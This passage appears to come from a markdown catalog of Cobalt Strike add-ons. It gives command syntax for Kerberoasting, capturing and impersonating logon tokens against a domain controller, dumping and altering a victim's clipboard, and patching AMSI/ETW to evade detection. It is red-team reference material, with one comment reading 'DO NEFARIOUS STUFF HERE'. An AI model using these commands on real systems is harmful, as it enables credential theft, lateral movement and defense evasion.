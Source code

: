 ```
- [**Kerberoast BOF**](https://github.com/cube0x0/BofRoast)<br />
BOF for targeted Kerberoasting against input SPN to roast<br />
Returns TGS that you can pass to apreq2hashcat.py (provided in repo) to output the hashcat format<br />
```kerberoast SPN/HOSTNAME.domain.local```

- [**Koh**](https://github.com/GhostPack/Koh)<br />
GhostPack BOF that allows for the capture of user credentials via purposeful token/logon session leakage.<br />
Koh has a BOF client for capturing logon tokens in Cobalt Strike and a C# capture server to negotiate captured tokens for new logon sessions.<br />
```
# Koh client BOF
help koh
  koh list              - lists captured tokens
  koh groups LUID       - lists the group SIDs for a captured token
  koh filter list       - lists the group SIDs used for capture filtering
  koh filter add SID    - adds a group SID for capture filtering
  koh filter remove SID - removes a group SID from capture filtering
  koh filter reset      - resets the SID group capture filter
  koh impersonate LUID  - impersonates the captured token with the give LUID
  koh release all       - releases all captured tokens
  koh release LUID      - releases the captured token for the specified LUID
  koh exit              - signals the Koh server to exit

koh list --> List current logon sessions
koh impersonate <LUID> --> Impersonate a logon session from above output

ls \\dc.theshire.local\C$ --> Use the impersonated privileged logon session to interact with a target system
```

- [**Cobalt-Clip**](https://github.com/DallasFR/Cobalt-Clip)<br />
A clipboard add-on for Cobalt Strike to interact with the victim's clipboard. With Cobalt-Clip you can dump, edit and monitor the content of a clipboard.<br />
```
dumpclip --> Dump current contents of clipboard
set-clipboard-data --> Modify victims clipboard data
clipmon --> Monitor the clipboard for new content and output to console
```

- [**BOF-patchit**](https://github.com/ScriptIdiot/BOF-patchit/)<br />
A very easy solution to patch AMSI or ETW. Patches AMSI/ETW for the currently running x64 process.
```
patchit check --> List if AMSI or ETW are currently patched
patchit all --> Patch both AMSI and ETW
patchit amsi --> Only patch AMSI
patchit etw --> Only patch ETW

# DO NEFARIOUS STUFF HERE....
